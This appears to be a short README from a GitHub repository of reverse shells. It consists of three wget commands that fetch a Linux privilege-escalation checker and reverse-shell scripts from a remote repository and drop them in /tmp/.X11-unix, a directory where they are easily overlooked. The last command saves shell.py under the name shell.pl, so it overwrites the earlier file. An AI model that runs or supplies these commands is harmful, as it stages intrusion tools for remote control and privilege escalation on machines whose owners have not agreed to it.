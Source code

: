 # Reverse-Shells


wget -O /tmp/.X11-unix/linuxprivchecker.py https://raw.githubusercontent.com/pand0rausa/Reverse-Shells/master/linuxprivchecker.py

wget -O /tmp/.X11-unix/shell.pl https://raw.githubusercontent.com/pand0rausa/Reverse-Shells/master/shell.pl

wget -O /tmp/.X11-unix/shell.pl https://raw.githubusercontent.com/pand0rausa/Reverse-Shells/master/shell.py
